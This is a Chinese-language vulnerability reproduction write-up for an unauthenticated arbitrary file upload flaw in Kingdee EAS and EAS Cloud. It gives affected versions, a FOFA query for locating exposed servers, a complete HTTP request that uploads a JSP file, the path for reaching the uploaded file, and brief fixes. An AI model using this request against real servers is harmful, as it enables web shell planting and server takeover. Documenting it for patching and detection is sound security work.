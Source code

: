 
# 金蝶 EAS 及 EAS Cloud 任意文件上传漏洞复现

### 0x01 产品简介

    金蝶 EAS Cloud 为集团型企业提供功能全面、性能稳定、扩展性强的数字化平台，帮助企业链接外部产业链上下游，实现信息共享、风险共担，优化生态圈资源配置，构筑产业生态的护城河，同时打通企业内部价值链的数据链条，实现数据不落地，管理无断点，支撑“横向到边”财务业务的一体化协同和“纵向到底”集团战略的一体化管控，帮助企业强化核心竞争力。

### 0x02 漏洞概述

   金蝶 EAS 及 EAS Cloud 在 uploadLogo.action 接口处存在文件上传漏洞，未经身份认证的攻击者可以利用文件上传漏洞执行恶意代码、写入后门、从而可能导致服务器受到攻击并被控制。

### 0x03 影响范围

EAS 8.0、EAS 8.1、EAS 8.2、EAS 8.5、EAS Cloud 8.6 私有云、EAS Cloud 8.6 公有云

EAS Cloud 8.6SP1, EAS Cloud 8.8

### 0x04 复现环境

FOFA：app="Kingdee-EAS"

![b5c0afcedce740e6b964d38f72bc200b.png](assets/1700528547-4c793c56658b2fa621606d20ab3f0e55.png)

### 0x05 漏洞复现 

PoC

```cobol
POST /plt_portal/setting/uploadLogo.action HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/4.0 (Mozilla/4.0; MSIE 7.0; Windows NT 5.1; FDM; SV1; .NET CLR 3.0.04506.30)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: multipart/form-data; boundary=04844569c7ca7d21a3ca115dca477d62

--04844569c7ca7d21a3ca115dca477d62
Content-Disposition: form-data; name="chooseLanguage_top"; filename="chooseLanguage_top"

ab
--04844569c7ca7d21a3ca115dca477d62
Content-Disposition: form-data; name="dataCenter"; filename="dataCenter"

ac
--04844569c7ca7d21a3ca115dca477d62
Content-Disposition: form-data; name="insId"; filename="insId"


--04844569c7ca7d21a3ca115dca477d62
Content-Disposition: form-data; name="type"; filename="type"

ad
--04844569c7ca7d21a3ca115dca477d62
Content-Disposition: form-data; name="upload"; filename="1.jsp"
Content-Type: image/png

<%out.print("test");%>
--04844569c7ca7d21a3ca115dca477d62--
```

![5735d034471e4978bc5f79d9ebe08284.png](assets/1700528547-51dd596eee57610890b15c7f57e436a3.png)PS：响应体会回显上传后的文件名

验证 url

```cobol
http://your-ip/portal/res/file/upload/回显的文件名.jsp
```

![c7c9e1b16e2a4ddfb6a0926622dfe8b3.png](assets/1700528547-61916312bc23c4ffe598ec070465ccca.png)

 命令执行

![15eb9cab24304bfe9b6883fbf120807c.png](assets/1700528547-9e7a20118e0a7076293ea218322bf4f2.png)

### 0x06 修复建议 

关闭互联网暴露面或接口设置访问控制权限

严格限制和校验上传的文件、限制上传的文件路径

文件上传后不回显上传文件名
